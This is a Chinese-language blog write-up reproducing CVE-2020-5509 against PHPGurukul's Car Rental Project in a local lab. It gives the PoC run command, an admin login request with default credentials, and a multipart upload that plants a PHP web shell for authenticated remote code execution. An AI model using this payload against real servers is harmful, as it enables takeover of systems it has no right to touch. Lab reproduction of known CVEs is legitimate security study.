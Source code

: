 ```yaml
---
title: CVE-2020-5509 Repetition
published: true
---
```

# [](#header-1)零.前言:
下午在Github上逛,找代码学习,突然瞥到CVE-2020-5509,看到了外国友人写的POC
原址:https://github.com/FULLSHADE/CVE-2020-5509-POC
于是搭建了环境,进行复现!
# [](#header-2)一.环境搭建:
搭建环境:
```
Windows server 2012 R2 阿帕奇 PHP7.5
```
官方源码:https://phpgurukul.com/car-rental-project-php-mysql-free-download/
搭建时需要新建一个数据库,然后将官方给的.sql数据文件导入到那个库里!
之后配置config.php信息,(要配置两个,一个是\includes\config.php,一个是\admin\config.php)
搭建完成图:
![](https://m4tir.github.io/assets/cve-2020-5509/1.png) 
之后就可以开始愉快地复现了!
# **二.复现过程:**
我们先用国外人写的poc打一下靶场:
```
python CVE-2020-5509.py 192.168.1.5(目标ip)
```
![](https://m4tir.github.io/assets/cve-2020-5509/2.png) 
```
[!] Failed to authenticate
```
**难道失败了?我重新看了一遍国外人写的poc,原来有处坑!**
![](https://m4tir.github.io/assets/cve-2020-5509/3.png) 
```
/carrentalproject/carrental/admin/changeimage1.php ##我们实际上是搭建在根目录的，不知道他这个/carrentalproject/carrental/目录是怎么来的，正是因为如此，才会获取不到tok值!
```
我们改一下poc!

![](https://m4tir.github.io/assets/cve-2020-5509/4.png) 

**ba把路径中的/carrentalproject/carrental去掉,再试试!**

![](https://m4tir.github.io/assets/cve-2020-5509/5.png) 

**ok，成功了!(但是它的终端有点奇怪,不管他)**

**国外友人的工具我用的不适手,于是便打算自己写一个图形化的工具!**

# **三.工具编写(.e):**

**话不多说，先构建界面,再导入一个精易模块:**

![](https://m4tir.github.io/assets/cve-2020-5509/6.png) 

**然后双击"Getshell"按钮，进入代码界面!**

**Getshell的第一步是要获取到Cookie，来进行鉴权文件上传!**

![](https://m4tir.github.io/assets/cve-2020-5509/7.png) 
```
curl -H "http://website/admin/index.php/" -D "username=admin&password=Test@12345&login="
```
**然后就通过鉴权文件上传来进行getshell**

![](https://m4tir.github.io/assets/cve-2020-5509/8.png) 

**上传包:**
```
--I am lonely
Content-Disposition: form-data; name="img1"; filename="test.php"
Content-Type: image/jpeg

<?php system($_GET["cmd"]); ?>
--I am lonely
Content-Disposition: form-data; name="update"

--I am lonely

```
**协议头:**
```
Content-Type: multipart/form-data; boundary="I am lonely"
```
然后尝试一下:

![](https://m4tir.github.io/assets/cve-2020-5509/9.png) 

**成功上传!**

**源码就不发了,因为所有代码就这几行:**

![](https://m4tir.github.io/assets/cve-2020-5509/10.png) 

**end！**

参考文章:
```
https://www.anquanke.com/vul/id/1894422
https://govanguard.com/threat-center/2020/01/13/car-rental-project-1-0-remote-code-execution/
http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-202001-437
```
